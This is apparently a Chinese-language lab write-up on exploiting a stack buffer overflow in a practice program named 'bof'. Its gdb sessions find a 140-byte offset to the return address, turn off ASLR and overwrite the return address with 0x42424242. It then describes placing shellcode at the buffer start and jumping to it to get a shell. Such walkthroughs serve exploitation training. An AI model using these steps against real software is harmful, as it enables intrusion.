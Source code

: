 在第一个断点处，找到缓冲区起始地址为0xffffd4a0

在第二个断点处，找到返回地址存储位置0xffffd52c

二者相减，即可知道溢出超过140字节时会覆盖返回地址

```
(gdb) r
Starting program: /home/sh4rk/pwnable/bof AAAA
Breakpoint 1, 0x08048508 in main ()
(gdb) x/2wx $esp
0xffffd490:   0xffffd4a0   0xffffd734       # 分别是strcpy的两个参数，第一个参数即为目标缓冲区0xffffd4a0
(gdb) c
Continuing.
argv[1]: AAAA
Breakpoint 2, 0x08048527 in main ()
(gdb) x/wx $esp
0xffffd52c:   0xf7e1f637                    # 此处为返回地址
(gdb) p/d 0xffffd52c - 0xffffd4a0           # 二者相减即可得到偏移
$1 = 140
```

- 第一个栈溢出漏洞利用

```
$ cat /proc/sys/kernel/randomize_va_space
0                                               # 降低难度，关闭系统地址随机化ASLR保护机制
$ gdb -q --args ./bof $(python -c 'print "A" * 140 + "BBBB"')               
Reading symbols from ./bof...
(No debugging symbols found in ./bof)
(gdb) r
Starting program: /home/sh4rk/pwnable/bof
argv[1]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/20x $esp - 160
0xffffd4a0:     0x080485c0      0xffffd4b0      0x000000c2      0xf7e9562b
0xffffd4b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4e0:     0x41414141      0x41414141      0x41414141      0x41414141
```

输入140个A加4个B时，返回地址被改成了0x42424242

在程序崩溃时，查看当前esp-160的内存，即可观察到缓冲区开头为0xffffd4b0

在buffer开头放上shellcode并跳转过去即可

- 在gdb中获取shell

为了输入不可见字符，我们使用python，在buffer开头放上shellcode，然后将返回地址覆盖成buffer的起始地址0xffffd4b0。

因为采用了小端(little endian)格式，因此返回地址的字节序为"\xb0\xd4\xff\xff"

最终成功执行shellcode获取了shell。

